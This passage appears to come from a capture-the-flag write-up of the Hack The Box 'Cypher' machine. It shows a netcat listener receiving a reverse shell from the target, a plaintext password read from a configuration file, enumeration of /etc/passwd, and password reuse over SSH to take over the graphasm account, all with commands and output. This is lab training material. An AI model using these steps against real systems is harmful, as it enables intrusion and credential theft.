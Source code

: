 A reverse shell is immediately caught by the `nc` listener.

```
fcoomans@kali:~/htb/cypher$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.11.57] 39176
bash: cannot set terminal process group (1438): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ id
id
uid=110(neo4j) gid=111(neo4j) groups=111(neo4j)
```

### 💰 Post Exploitation

#### 🔼 Priv Esc to graphasm

During system enumeration I find that the `/home/graphasm/bbot_preset.yml` configuration file contains a password for the `neo4j` user.
The password is `cU4btyib.20xtCMCXkBmerhK`.

```
neo4j@cypher:~$ cat /home/graphasm/bbot_preset.yml
cat /home/graphasm/bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

The `/etc/password` file is also checked to get a list of all users that have shell access.
Only the `graphasm` user stands out as its home directory is under `/home`.

```
neo4j@cypher:~$ grep sh /etc/passwd
grep sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```

I attempt to SSH to the target as user `graphasm`, but re-using the password for `neo4j` i.e., `cU4btyib.20xtCMCXkBmerhK` and it works.

```
fcoomans@kali:~/htb/cypher$ ssh graphasm@cypher.htb
graphasm@cypher.htb's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

<SNIP>

graphasm@cypher:~$ id
uid=1000(graphasm) gid=1000(graphasm) groups=1000(graphasm)
```

